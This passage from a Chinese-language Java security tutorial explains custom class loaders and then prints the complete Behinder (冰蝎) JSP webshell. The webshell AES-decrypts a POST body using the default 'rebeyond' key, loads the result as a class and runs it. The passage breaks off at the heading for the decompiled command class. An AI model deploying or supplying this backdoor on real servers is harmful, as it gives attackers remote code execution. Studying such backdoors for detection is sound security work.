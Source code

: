 执行输出结果：

```java
//A类加载器和B类加载器加载的类不同
aClass == aaClass：true
aClass == bClass：false

com.y5neko.sec.classloader.TestHelloWorld方法清单：
public java.lang.String com.y5neko.sec.classloader.TestHelloWorld.hello()

反射调用：com.y5neko.sec.classloader.TestHelloWorld类hello方法，返回结果：Hello World~
```

### JSP自定义类加载后门

以`冰蝎`为首的JSP后门利用的就是自定义类加载实现的，冰蝎的客户端会将待执行的命令或代码片段通过动态编译成类字节码并加密后传到冰蝎的JSP后门，后门会经过AES解密得到一个随机类名的类字节码，然后调用自定义的类加载器加载，最终通过该类重写的`equals`方法实现恶意攻击，其中`equals`方法传入的`pageContext`对象是为了便于获取到请求和响应对象，需要注意的是冰蝎的命令执行等参数不会从请求中获取，而是直接插入到了类成员变量中。

**冰蝎JSP后门：**

```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
    }
%>
```

**冰蝎命令执行类反编译：**
